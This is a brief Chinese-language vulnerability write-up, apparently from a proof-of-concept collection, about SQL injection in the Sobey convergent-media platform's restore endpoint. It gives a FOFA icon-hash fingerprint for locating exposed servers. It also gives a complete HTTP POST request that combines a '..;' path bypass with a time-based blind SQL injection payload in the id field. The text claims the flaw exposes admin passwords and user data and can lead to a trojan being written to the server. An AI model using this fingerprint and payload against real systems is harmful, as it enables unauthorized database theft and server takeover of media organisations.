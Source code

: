 # 索贝融媒体restore存在SQL注入漏洞

索贝融媒体产品是成都索贝数码科技股份有限公司（简称索贝）为各级电视台和媒体机构打造的一套集互联网和电视融合生产的解决方案。索贝融媒体 mch/WXArticleInt/restore 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
icon_hash="689611853"
```

## poc

```javascript
POST /sobey-mchEditor/js/..;/mch/WXArticleInt/restore HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

siteCode=&id=1+AND+%28SELECT+2804+FROM+%28SELECT%28SLEEP%285%29%29%29MDfc%29&token=
```
